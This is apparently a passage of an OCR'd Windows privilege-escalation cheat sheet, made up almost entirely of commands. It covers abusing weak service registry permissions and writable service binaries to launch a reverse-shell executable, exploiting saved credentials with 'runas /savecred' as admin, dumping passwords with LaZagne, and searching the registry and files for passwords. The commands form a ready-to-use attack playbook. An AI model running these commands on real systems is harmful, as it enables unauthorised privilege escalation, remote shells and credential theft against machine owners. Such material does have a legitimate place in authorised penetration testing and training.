 ```
net start <service name>


# Weak Registry Permission
wmic service get name,pathname,displayname,startmode (Powershell) OR 
sc query state= all (CMD)
sc qc <service name>
accesschk.exe /accepteula -uvwqk <reg value> HKLM\System\CurrentControlSet\Services\regsvc
reg add <reg value> /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
net stop <service name>
net start <service name>


# Insecure Service Executables
wmic service get name,pathname,displayname,startmode (Powershell) OR 
sc query state= all (CMD)
sc qc <service name>
accesschk.exe /accepteula -quvw <service binary location>
copy C:\PrivEsc\reverse.exe <service binary location> /Y
net stop <service name>
net start <service name>


# Scheduled Tasks
tasklist /V 
Get-ScheduledTask
schtasks /query /fo LIST /v
schtasks /query /fo LIST /v | findstr /C:"TaskName" /C:"Run As User"
icacls <task location>


# Binary Overwrite or Missing Binary
schtasks /query /fo LIST /v | findstr /B /C:"Folder" /C:"TaskName" /C:"Run As User" /C:"Schedule" /C:"Scheduled Task State" /C:"Schedule Type" /C:"Repeat: Every" /C:"Comment"


# Missing Binary
schtasks /query /fo LIST /v | findstr /B /C:"Folder" /C:"TaskName" /C:"Run As User" /C:"Schedule" /C:"Scheduled Task State" /C:"Schedule Type" /C:"Repeat: Every" /C:"Comment" 


# Third Party Applications
wmic product


# Passwords
cmdkey /list
runas /savecred /user:admin C:\PrivEsc\reverse.exe
.\LaZagne.exe all


# Device Drivers and Kernel Modules
driverquery /v
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}


# Find Passwords
reg query HKLM /f password /t REG_SZ /s
findstr /si 'password' *.txt *.ps1 *.xml *.docx *.db *.kdbx
findstr /si 'passwd' *.txt *.ps1 *.xml *.docx *.db *.kdbx
findstr /si 'pass' *.txt *.ps1 *.xml *.docx *.db *.kdbx
```